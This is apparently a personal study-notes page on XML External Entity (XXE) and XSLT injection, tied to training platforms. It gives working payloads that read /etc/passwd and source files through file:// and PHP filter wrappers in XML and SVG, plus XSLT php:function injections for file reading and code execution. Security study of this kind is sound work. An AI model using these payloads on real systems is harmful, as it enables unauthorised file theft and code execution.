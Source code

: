# XML External Entity (XXE)

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![mustacchio](../../../../_badges/thm-p/mustacchio.svg)](https://tryhackme.com/room/mustacchio)
[![xxe_injection](../../../../_badges/poat/xxe_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
[![web_attacks](../../../../_badges/htb/web_attacks.svg)](https://academy.hackthebox.com/course/preview/web-attacks)

<div class="row row-cols-lg-2"><div>

An XML External Entity (XXE) is an attack exploiting [XML](/programming-languages/others/data/xml.md) parsers used by applications. We create a custom [DTD](/programming-languages/others/data/xml.md#document-type-definition-dtd-) doing something malicious.

* Arbitrary file access <small>(passwd, id_rsa, etc.)</small>
* Perform a DDoS attack <small>(often patched in modern web servers)</small>
* Perform a [SSRF attack](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md)
* Perform a [XSS attack](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md)

There are two kind of XXE

* **In-band XXE**: same channel to attack and fetch results
* **Out-band/Blind XXE**: different channels to attack and fetch results
</div><div>

For instance, we define an entity called `poc` in the DTD that is defined by the string `Hello, World!`. A vulnerable XML parser will replace the anchor `&poc;` inside the root element with the string.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY poc "Hello, World!">]>
<root>&poc;</root>
```

⚠️ I didn't test if this was the only PoC/sign of a possible XXE.

📚 As a reminder, [SVG](https://en.wikipedia.org/wiki/SVG) are XML files too.
</div></div>

<hr class="sep-both">

## XXE XML Payloads

<div class="row row-cols-lg-2"><div>

When using in-band XXE, inject the anchor in a tag that is displayed.

#### Stealing files

We can use the `file://` protocol to read simple files.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<root>&xxe;</root>
```

But it doesn't work when the file contains XML tags. We can use [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md) to read PHP and non PHP files on a PHP web server.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
<root>&xxe;</root>
```

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
<root>&xxe;</root>
```
</div><div>
</div></div>

<hr class="sep-both">

## XXE SVG Payloads

<div class="row row-cols-lg-2"><div>

#### Stealing files

We can use the `file://` protocol to read simple files. For a SVG, we can use the following code <small>(assuming `attr` is displayed)</small>:

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```

But it doesn't work when the file contains XML tags. We can use [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md) to read PHP and non PHP files on a PHP web server.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```
</div><div>

#### XSS attack

If the SVG is displayed, we may be able to perform a XSS attack.

```xml!
<svg width="100" height="100" xmlns="http://www.w3.org/2000/svg">
    <script type="text/javascript">/* ... */</script>
</svg>
```
</div></div>

<hr class="sep-both">

## XSLT Transformations

[![xslt_injection](../../../../_badges/poat/xslt_injection.svg)](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/)
[![xslt_ssi](../../../../_badges/hacktricks/xslt_ssi.svg)](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations)
[![xslt_code_execution](../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)

<div class="row row-cols-lg-2"><div>

Transformations may be applied on the XML. If the XSLT parser is vulnerable, we may be able to execute some code.

An example of a base template for a PHP XSLT wrapper:

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
</body>
</html>
```
</div><div>

You may then inject something inside the body:

```xml!
<xsl:value-of select="php:function('readfile','index.php')" />
<xsl:copy-of name="xxx" select="php:function('file_get_contents', 'index.php')">
<xsl:value-of select="php:function('opendir','.')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:copy-of name="xxx" select="php:function('assert', '1==1')" />
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `PUBLIC` instead of `SYSTEM`?
</div><div>
</div></div>